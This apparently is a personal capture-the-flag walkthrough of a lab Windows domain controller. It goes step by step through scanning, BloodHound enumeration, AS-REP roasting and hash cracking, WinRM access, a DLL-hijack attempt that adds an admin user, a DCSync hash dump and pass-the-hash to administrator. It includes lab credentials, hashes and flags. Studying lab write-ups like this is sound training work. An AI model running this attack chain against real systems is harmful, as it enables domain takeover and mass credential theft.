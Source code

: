 enumerate ports    
`sudo nmap -p- --min-rate=1000 -T4 -oN nmap_fast --stats-every 15s 10.10.10.30`    

more detailed scan for   
`sudo nmap -sV -sS -sU -A -oN nmap_details --stats-every 15s --script=/home/stddel/git/vulscan/vulscan.nse -p(cat nmap_results | grep '^.[0-9]' | cut -d '/' -f 1 |  tr '\n' ',' | sed 's/,$//g') 10.10.10.30`   


389/tcp   open          ldap           Microsoft Windows Active Directory LDAP    
88/tcp    open          kerberos-sec   Microsoft Windows Kerberos    
> This should be a Windows Domain Controller    

enumerate DC with credentials from the previous machines    
`python bloodhound/bloodhound.py -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30`     
The results are all the info from DC    
```
computers.json
domains.json
groups.json
users.json
```

`neo4j start console`     
`bloodhound --no-sandbox`    
This should show the structure of the domain and give the attack vector.    
Have not found a way to give a reasonable results.    

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting.
We can check this using a tool such as Impacket's GetNPUsers.    

```
python /home/stddel/git/impacket/examples/GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30 > hash

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:8640b0e4cfc6e6ea75c52b7a8718c883$7792389ea3206bc285cc9d37d02cb745fa9e34499ece99cd1928be3ae94e52fade17f0895ddb32642eedb5bf505ae8864932792f5851c302259ff6ab14e45443a9cda7f698e59c5a75da3af2a411fe0a835e05bdde7b081438d8a0795231f6fdab19640b66ef2c306e29500e90765d653f9f9bd6dd0b6b9c7db971ac5462e9b3855a2c8b82df002a985271007e053f662c6f36fb6703ad31ac6be85ff7dd1637e5a67fb6088f6a7a8510dcf8024e5e7d123fe6c6cb0dc1f2d7fab71b9df357127cd42e756f1204b3e30d9d79722a526b344b443d4b56321baa3c8e976a810b52555a37f737f30540ee8c6158b2d6940a
```

hash part starts at right from `$krb5asrep$23$...`    
```
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt

>

svc_bes@MEGACORP.LOCAL:Sheffield19
```

It is now possible to access the server using WinRM    
```
gem install evil-winrm
evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
```
And we are logged in now    
```
> whoami
megacorp\svc_bes
> cd C:\Users\svc_bes\Desktop>
> cat user.txt
b05fb166688a8603d970c6d033f637f1
```
copy all the `git/PowerSploit/Privesc` into windows machine powershell foulder    

```
> echo $Env:PSModulePath
C:\Users\svc_bes\Documents\WindowsPowerShell\Modules
> upload to C:\Users\svc_bes\Documents\WindowsPowerShell\Modules\Privesc
> Import-Module Privesc
> Invoke-AllChecks

...blablabla...

[*] Checking %PATH% for potentially hijackable DLL locations...


ModifiablePath    : C:\Users\svc_bes\AppData\Local\Microsoft\WindowsApps
IdentityReference : MEGACORP\svc_bes
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\svc_bes\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\svc_bes\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

...blablabla...


```

lets do it!

```
> Write-HijackDll -DllPath 'C:\Users\svc_bes\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
> net user john1432 Password123! /add && timeout /t 5 && net localgroup Administrators john1432 /add
```
FAIL

from tutorial:
In order to leverage the `GetChangesAll` permission, we can use Impacket's `secretsdump.py` to perform a DCSync attack and dump the NTLM hashes of all domain users.    

`python ~/git/impacket/examples/secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30`    

Works like a magic. All users with all the hahses are here.    

And we even dont need to crack these hashes, as we can login directly using them.    

`python ~/git/impacket/examples/psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18`    

And this is the end of this machine     

```
>type root.txt
ee613b2d048303e5fd4ac6647d944645
```



